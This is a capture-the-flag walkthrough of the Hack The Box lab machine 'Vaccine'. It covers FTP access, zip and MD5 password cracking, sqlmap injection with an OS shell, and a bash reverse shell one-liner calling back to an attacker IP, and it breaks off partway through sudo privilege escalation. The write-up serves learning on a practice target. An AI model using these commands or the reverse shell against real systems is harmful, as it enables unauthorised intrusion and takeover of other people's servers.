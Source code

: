 # Vaccine
Notification: The words that are hyperlinked are to resources to learn more about the topic, protocol, or have useful information in them check them out if you want to learn more. 
# Enumeration

1. Nmap Scan 
  - First we want to start with a nmap scan and see what is available to us. to do this we will run the command below
    - `nmap -sS -A -oN nmap.txt 10.10.10.48`
    ![image](https://user-images.githubusercontent.com/29686845/133382328-9fb1414d-3ef7-440b-b5b9-96f3cbf89b49.png)
  - We see our open ports 21 FTP, 22 SSH, 80 HTTP Apache open. The main thing we notice is at the bottom of the screenshot or in our nmap scan we can see `http-title: MegaCorp Login`. This tells me that our credentials that we found in the previous machine [oopsie](https://github.com/Ajqx255/Hack-The-Box/tree/main/Oopsie) could potentially work to get us a secure shell through port 22. 
2. Port 22 SSH
  - lets try the root user that we obtained. Username: `ftpuser` Password: `mc@F1l3ZilL4` and connect with the command [SSH](https://www.openssh.com/manual.html) as seen below:
  
    ![image](https://user-images.githubusercontent.com/29686845/133384641-ee391953-ce3f-40a4-8a4e-c50499c56ed3.png)  
  - Which did not work, but it dawned on me as soon as we were denied permisson. (Dont Laugh at me... or do its fun to laugh and learn from our mistakes) there is a big hint in the name ftpuser. we have a open port and protocol that use ftp and [FileZilla](https://filezilla-project.org/) is a ftp software so we might have better luck there. 
3. Port 21 FTP
  - We will run the [FTP](https://linux.die.net/man/1/ftp) command as seen below:
    - `ftp 10.10.10.46`
    - ![image](https://user-images.githubusercontent.com/29686845/133386609-e80d051e-f851-4fe8-9552-d98a426f5aae.png)
  -  after using the same credentials as above we now see that we are succesfully connected lets see what we can find.
    - a simple `ls` command shows that there is a zip file nammed: backup.zip as seen below:
      ![image](https://user-images.githubusercontent.com/29686845/133498980-ed39df96-0c2b-4d83-adbb-9e3226339807.png)
  -  Lets extract the file back to our linux machine with using the [get](https://linux.die.net/man/1/get) command:
     - `get backup.zip`
  -  Now lets unzip the file with the command [unizp](https://linux.die.net/man/1/unzip) as seen below:
    - `unzip backup.zip`
    - When we do this we notice that it is asking for a password. Lets try the password for ftp user since it worked for usto gain access to the ftp server it might work here. 
    - ![image](https://user-images.githubusercontent.com/29686845/133500536-069549ad-1b43-4b25-8f26-cbcba8a35872.png)
    - the ftp password did not work either.
  - Since we do not know the password lets see if we can not brute force the password using [John the ripper](https://www.openwall.com/john/doc/)
    - We know we know we are going to use john to brute force the zip file, but we are going to have to do some prep work before we can actually use john. The first thing we are going to have to do is change the zip file into a format that john can read and crack. we will do this using [zip2john](https://www.hackingarticles.in/beginners-guide-for-john-the-ripper-part-2/) 
    - We will run the command `zip2john backup.zip > hash.txt`
    - ![image](https://user-images.githubusercontent.com/29686845/133515214-b0de851d-4373-407f-8421-3d5d899f124e.png)
    - John can now read teh file so lets go agead and crack it with the follwoing command:
    - `sudo john hash.txt --fork=4 -w= /usr/share/wordlists/rockyou.txt`
      - incase you were wondering --fork is stating the amount of threads or instances it will run simultaniously.
      - -w= is selecting a wordlist that you provide. In kali linux there are already wordlists install under /usr/share/wordlists. 
    -  Time frames will change based on the resources you are running, but within a matter of seconds john was able to crack to the hash:
    -  ![image](https://user-images.githubusercontent.com/29686845/133854092-b087597b-2285-4c55-bcdf-2074946b63ca.png)
        - I had issues with running this command for some reason: It worked the one time and I am glad I took a screen shot of it then. I tried multiple times to look at it and figure out what I was doing wrong, but I couldn't find it. So I would say try it out first and if it doesn't work, dont go on a three day rabbit hole like I did just move on! lol. 

4. Opening the zip file.
  - Now that we have the password `741852963` we can go ahead and unzip the backup.zip file and take a look inside.
    - The results ended out as two files "index.php" & style.css". Both seem to be a programming language file. 
      - [PHP](https://www.php.net/manual/en/intro-whatis.php)
      - [CSS](https://developer.mozilla.org/en-US/docs/Learn/CSS/First_steps/What_is_CSS)
    - You can look into the folder using the cat command: `cat index.php`, the less command: `less index.php`, but personally I like to use [Virtual Studio Code](https://code.visualstudio.com/). It color coordinates everything and just makes it easier for me to read and write code.
    - Once opened on we see some useful infromation. We find a set of credentials as seen below.
      ![image](https://user-images.githubusercontent.com/29686845/134093351-ecc751ba-0c94-4f1b-91f1-e208daed70f3.png)
    - Username: `admin` & Password: `2cb42f8734ea607eefed3b70af13bbd3`
      - This does not seem like a regular password, or at least not one that would be easily used or even memorized. That is because it is not a password it is a hash. it as in md5 hash to be exact. How can we tell? well luckily for us they made it easy. in the screenshot above the section right before password its says md5. 

5. Cracking the Hash
  - Lets see if we can crack it using [CrackStation](https://crackstation.net/). you can use other tools like hashcat, but it will talk some time to complete compaired to the seconds it takes CrackStation
      ![image](https://user-images.githubusercontent.com/29686845/134099184-3a44f86e-954a-4643-a105-9b71f275d3f5.png)
  - We now know that the username and the password `admin` & `qwerty789`
  
# FootHold
1. Web Page Access
  - I tried connecting through port 22 and the credentails did not work. so lets scratch that all together.
  - We know port 80 http is open lets take a look at the webpage and see what we find.
    - The website brings us to a login page. I entered the credianls `admin | qwerty789`. This gets us a successful login.
  - There is not many relevant factors to the page, but it seems to be a car catalog with a functioning search bar that we might be able to exploit.
2. Exploiting the Webpage
  - Based on our last activity I used burpsuite to look into the page with site map and found that this webpage uses [cookies](https://www.kaspersky.com/resource-center/definitions/cookies). 
    ![image](https://user-images.githubusercontent.com/29686845/134251827-8e4fce2d-2cfb-4a9b-86d3-75b574b0b420.png)
    - We can also see this information when we inspect the web page source code under the storage tab.
      ![image](https://user-images.githubusercontent.com/29686845/134251976-0f94bc71-70b6-4c06-9364-f723c604d70f.png)
  - Now that we have the session id/cookie we can use [sqlmap](https://sqlmap.org/) to see if there are any weaknesses or vulnerable area's ind the database. 
    - `sqlmap -u http://10.10.10.46/dashboard.php?search=a --cookie=PHPSESSID=0h8aobaj9glv58eeme3bsb0l0g`
      - You PHPSESSID will probably be different make sure you use you session id and not this one.
      ![image](https://user-images.githubusercontent.com/29686845/134252721-bb9bd463-fd6a-49b1-b71b-5360f616c369.png)
      ![image](https://user-images.githubusercontent.com/29686845/134253363-15bc34b1-a0c6-47f0-a099-0a94b8363064.png)
    - The output of our command shows that the back end of the Database Management system [DBMS](https://www.altexsoft.com/blog/business/comparing-database-management-systems-mysql-postgresql-mssql-server-mongodb-elasticsearch-and-others/) is [PostgreSQL](https://www.postgresql.org/)
    - This means that sqlmap found that there were many injection vulnerabilietes within this database. 
      - looking in burpsuite will show you a better idea of this with issue definitions
        ![image](https://user-images.githubusercontent.com/29686845/134255984-052aef09-d44f-40d2-88da-7f7eb31c97ee.png)
    - sqlmap provides an easy way to get a shell with this vulnerabilites. it is as easy as adding `--os-shell` to the end of our previous command which I will show right below this
    - `sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=0h8aobaj9glv58eeme3bsb0l0g" --os-shell`
      - I had issues with this for this. It is always important to check you syntax very diligently. I was missing the last character on my cookie when I copied and pasted it into the command. That prevented my from obtaining a shell for a little bit. 
      - ALWAYS CHECK YOUR SYNTAX

3. OS-Shell
  - Now that we have access to our os shell lets a run a few inital commnads. 
    - `whoami` & `id`
    - These commands will tell us what user we are and what this use has access too. 
  - We are going to try and create a reverse shell like we did in the previous machine.
    - lets set up our listner with the netcat command `nc -lvnp 444`
    - now lets run the reverse shell creation command in our os shell 
    - `bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'`
      ![image](https://user-images.githubusercontent.com/29686845/134260208-03155586-6647-4d0d-993b-0668e78f6ca3.png)
    - Now we have our shell! Lets upgrade that shell to a [tty](https://unix.stackexchange.com/questions/4126/what-is-the-exact-difference-between-a-terminal-a-shell-a-tty-and-a-con) shell using the command below:
    - `SHELL=/bin/bash script -q /dev/null`
    - Now that we have our upgraded reverse shell lets move on to gaining privilege escilation

# Privlege Escalation
1. html
  - We know that we are looking at at a web server database so lets look at the `/var/www/html` and see if we can find anyhting in the web page files that the developer forgot to take out.
    - once there i recogonized the `dashbord.php` file that was in our URL earlier.
    - I took a look in there with the cat command. `cat dashboard.php`
    - inside the file we find the credentials for the user postgres
      ![image](https://user-images.githubusercontent.com/29686845/134261757-253936eb-f311-4c3b-b865-b8f8f618d174.png)
    - UN: `postgres` PW: `P@s5w0rd!`
2. Sudo
  - So now that we have the user password we can see if we have any sudo permissions.
    - run the command `sudo -l` (lowercase L). It prompts for our password: `P@s5w0rd!` and shows us where we have sudo permissions and what commands we can run as a sudo or super user. 
      ![image](https://user-images.githubusercontent.com/29686845/134262172-335c02c9-bc30-4948-ab00-9732d559c985.png)
    - We see at the bottom that we can run the command:
    - `/bin/vi /etc/postgresql/11/main/pg_hba.conf` 
    - so lets run that command and see what happens.
    - we end up in the file using [VI](https://www.cs.colostate.edu/helpdocs/vi.html) file editor.
    - ![image](https://user-images.githubusercontent.com/29686845/134263584-8a8dc617-5b37-4c0b-848e-6d310c1b6fc6.png)
    - 



    
